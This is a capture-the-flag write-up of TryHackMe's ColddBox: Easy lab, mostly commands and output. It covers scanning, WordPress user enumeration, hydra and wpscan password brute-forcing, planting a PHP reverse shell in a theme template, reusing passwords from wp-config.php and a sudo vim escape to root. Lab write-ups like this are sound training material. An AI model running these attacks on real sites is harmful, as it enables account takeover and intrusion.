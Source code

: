 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . ColddBox: Easy
# DESCRIPTION       . An easy level machine with multiple ways to escalate privileges.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/colddboxeasy
```

```
sudo nmap -sSVC -T5 -p- -oN coldbox 10.10.39.162
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-title: ColddBox | One more machine
|_http-server-header: Apache/2.4.18 (Ubuntu)

4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ebf98c09bc536808c96e8969565973b (RSA)
|   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
|_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
ffuf -u http://10.10.39.162/FUZZ -w /usr/share/wordlists/dirb/common.txt -t 100
```

```
hidden                  [Status: 301, Size: 313, Words: 20, Lines: 10]
wp-admin                [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-content              [Status: 301, Size: 317, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 318, Words: 20, Lines: 10]
xmlrpc.php              [Status: 200, Size: 42, Words: 6, Lines: 1]
```

- Alright, so we have some interesting results.
- `/hidden` directory gives us a list of possible usernames in the form of a message on the `index.html` page.

```
C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```

- Alright, back to the main page. By inspecting the source code, we can see the wordpress version used

```
<meta name="generator" content="WordPress 4.1.31" />
```

- Alright. Technically, we could assume that the users are `hugo`, `philip` and `c0ldd`, but let's use `wpscan` to see what it finds.

```
wpscan --url http://10.10.39.162 -e
```

```
User(s) Identified:

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

- Alright. We also have the login panel in `/wp-admin/` directory, so let's brute-force it.

- We can use either `hydra` or `wpscan`.

**WPSCAN** 

```
wpscan --url http://10.10.39.162 -U philip,c0ldd,hugo -P /usr/share/wordlists/rockyou.txt
```

```
+] Performing password attack on Wp Login against 3 user/s
[SUCCESS] - c0ldd / {redacted}   
```

**HYDRA**

```
sudo hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.39.162 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location" -t 64
```

```
[80][http-post-form] host: 10.10.39.162   login: c0ldd   password: {redacted}
```

**NOTE**: `users.txt` is a file containing our usernames, each on a separate line.

- Alright. So we have credentials for the `/wp-admin` page.

- After logging in, the most obvious way for me to escalate my access to the server was to edit one of the existing `.php` pages with a reverse shell.

- So I went to `Appearance -> Editor` and on the right hand side of the screen we see `Templates`.

- Here, I chose to edit the `404 Template` which is the content displayed when the `404` error occurs.

- I replaced the existing code with pentestmonkey's PHP reverse shell code and accessed it via `ip/wp-content/themes/twentyfifteen/404.php` after setting up my listener. 

- Now we're under `www-data` on the server. I know that the `wp-config.php` file is the file that contains the database config of wordpress, so let's take a look here first.

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', '{redacted}');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

- We have the password of the mysql, but the username is `c0ldd`. 
- I tried reading the flag from `/home/c0ldd/user.txt` and I don't have permissions, so I assume we must escalate privileges first to `c0ldd` and then root.

- The user `c0ldd` has the same password as in the config for his own account - `su c0ldd`

```
sudo -l

(root) /usr/bin/vim
(root) /bin/chmod
(root) /usr/bin/ftp
```

- We can use any of these binaries to escalate privileges to root.

- I chose vim since I knew the command from the top of my head, but you can check GTFObins to see how to escalate privileges using each one of them

```
sudo /usr/bin/vim

<ESC>
:!/bin/bash
<ENTER>
```

- The user flag is in `/home/c0ldd/user.txt
- The root flag is in `/root/root.txt`

**NOTE**: I identified multiple ways to get on this system.

- First of all the `xml-rpc.php` file is exposed, which, was previously used as a way for programs / apps to interact with wordpress; 

- This can be further abused to result in a DoS or to bruteforce credentials, depending on what methods we find active by sending the methodCall below

```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

- However, I didn't had time to try this too, so, if this isn't updated, consider this a reminder for future self.

- Also, after getting access to the `wp-admin` panel, you could technically upload a custom `PHP plugin` that would allow RCE, thus, leading to another way of gaining access on the system.

